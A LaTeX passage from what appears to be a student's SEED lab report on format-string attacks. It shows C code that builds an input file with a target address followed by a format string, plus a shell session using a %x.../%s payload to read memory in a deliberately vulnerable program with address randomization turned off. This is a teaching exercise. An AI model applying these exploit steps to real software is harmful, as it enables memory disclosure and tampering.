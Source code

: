 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=C,
	caption=Example of overwriting memory with a specified value,
	label=printf:writefilec,
	breaklines=true,
}
\begin{lstlisting}
#include <sys/stat.h>
#include <fcntl.h>
int main()
{
	char buf[1000];
	int fp, size;
	unsigned int *address;
	/* Putting any number you like at the beginning of the format string */
	address = (unsigned int *) buf;
	
	/* Put address of secret[1] in first four bytes */
	*address = 0x0804b01c;
	
	/* Getting the rest of the format string */
	scanf("%s", buf+4);
	size = strlen(buf+4) + 4;
	printf("The string length is %d\n", size);
	
	/* Writing buf to "mystring" */
	fp = open("mystring", O_RDWR | O_CREAT | O_TRUNC, S_IRUSR | S_IWUSR);
	if (fp != -1) {
		write(fp, buf, size);
		close(fp);
	} else {
	printf("Open failed!\n");
}
\end{lstlisting}

In order to execute this task we had to disable virtual memory randomization, so that at every consecutive execution of our program the memory addresses of the \texttt{secret} would stay exactly the same. We needed the address to stay to same, in order to run the vulnerable program once, take note of the address, run our program \texttt{write\_string} that creates a file to be used as input, and run vulnerable program again and be sure that the address space is exactly as during previous run.

\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=BASH,
	caption=Example of overwriting memory with a specified value,
	label=printf:writefile1,
	breaklines=true,
}
\begin{lstlisting}
seed@seed-desktop:~/cwk2$ ./write_string
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%s
The string length is 36
seed@seed-desktop:~/cwk2$ ./vul < mystring
The variable secret’s address is 0xbffff4e8 (on stack)
The variable secret’s value is 0x 804b018 (on heap)
secret[0]’s address is 0x 804b018 (on heap)
secret[1]’s address is 0x 804b01c (on heap)
Please enter a string
bffff4ec.bffff560.bffff554.bffff5f4.0.0.bffff5a0.b7fff670.80482bf.804b018.U
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x55
\end{lstlisting}

In the listing~\ref{printf:writefile1} we can see that we run program \texttt{write\_string} which writes into 'myfile'. Then we use myfile as standard input to my program. First four bytes of \texttt{user\_input} now will contain the address of \texttt{secret[1]}. We then specify the rest of format specifier as in previous part of this task. Note that now we have to pop more values off the stack, because \texttt{user} is defined at the beginning of the method so it gets pushed to the stack earlier. As the result, when \texttt{user\_input} is at top of the stack and \texttt{printf} 'executes' \texttt{\%s} we print the location stored at the beginning of this buffer. 
\end{document}
